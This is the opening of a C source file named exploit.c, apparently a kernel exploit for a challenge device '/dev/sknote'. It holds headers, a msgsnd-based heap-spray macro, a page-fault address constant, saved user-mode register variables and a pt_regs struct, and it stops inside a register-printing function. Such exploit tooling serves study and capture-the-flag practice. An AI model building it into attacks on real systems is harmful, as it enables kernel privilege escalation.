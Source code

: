 ```exploit.c
#include <sys/types.h>
#include <sys/xattr.h>
#include <sys/socket.h>
#include <sys/uio.h>
#include <sys/shm.h>

// commands
#define DEV_PATH "/dev/sknote" // the path the device is placed
#define MAX_NOTE_SIZE 0x400

// constants
#define PAGE 0x1000
#define FAULT_ADDR 0xdead0000
#define FAULT_OFFSET PAGE
#define MMAP_SIZE 4 * PAGE
#define FAULT_SIZE MMAP_SIZE - FAULT_OFFSET
// (END constants)

// utils
#define WAIT getc(stdin);
#define ulong unsigned long
#define scu static const unsigned long
#define NULL (void *)0
#define errExit(msg)    \
  do                    \
  {                     \
    perror(msg);        \
    exit(EXIT_FAILURE); \
  } while (0)
#define KMALLOC(qid, msgbuf, N)   \
  for (int ix = 0; ix != N; ++ix) \
  {                               \
    if (msgsnd(qid, &msgbuf, sizeof(msgbuf.mtext) - 0x30, 0) == -1) \
    errExit("KMALLOC"); \
  }
ulong user_cs, user_ss, user_sp, user_rflags;
struct pt_regs
{
  ulong r15;
  ulong r14;
  ulong r13;
  ulong r12;
  ulong bp;
  ulong bx;
  ulong r11;
  ulong r10;
  ulong r9;
  ulong r8;
  ulong ax;
  ulong cx;
  ulong dx;
  ulong si;
  ulong di;
  ulong orig_ax;
  ulong ip;
  ulong cs;
  ulong flags;
  ulong sp;
  ulong ss;
};
void print_regs(struct pt_regs *regs)
{
  printf("r15: %lx r14: %lx r13: %lx r12: %lx\n", regs->r15, regs->r14, regs->r13, regs->r12);
```